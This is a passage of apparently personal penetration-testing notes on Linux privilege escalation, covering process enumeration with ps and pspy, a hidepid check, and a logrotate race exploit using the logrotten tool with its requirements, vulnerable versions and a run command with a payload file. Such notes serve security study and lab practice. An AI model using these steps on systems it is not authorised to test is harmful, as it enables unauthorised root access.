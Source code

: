   - Backend Files -> `.php`, `.jsp`, ..., Information in the Code
  - Database Files -> `.sqlite3`, `.sql`, `.db`, Others
  - Settings Files -> `.conf`, `.ini`, Others

## Local Processes


Config Files:

- Look for local databases / chrome debuggers / password managers
- Folders -> `/opt`, `/`

### Enumeration

```bash
ps -ef | grep -v ]             # Running processes
ps -ef --forest | grep -v ]    # See the flow of processes         
./pspy -pf -i 1000             # Recurrent processes
```
- Try to trigger them (e.g. new ssh login)
- `UID=0` -> `root`
- `uid [user]` -> get UID of an user

If no processes are visible, check `mount | grep ^proc`, and see if hidepid is equal to invisible or 2. If so, all processes are invisible, except for yours.

### Exploits
#### logrotate

It archives or disposes of old logs. Conf file: `/etc/logrotate.conf`

Requirements for [logrotten](https://github.com/whotwagner/logrotten):

1.  write permissions on the log files

    ```bash
    find / -type f -writable 2>/dev/null | grep -i log
    ```

    You should find a file names `smth.log` and `smth.log.1`

2. logrotate must run as a privileged user or `root`

3. vulnerable versions:
   - 3.8.6
   - 3.11.0
   - 3.15.0
   - 3.18.0

4. Determine option:

   ```bash
    grep "create\|compress" /etc/logrotate.conf | grep -v "#"
   ```

   - create

     ```bash
     ./logrotten -p ./payloadfile <smth.log>
     ```
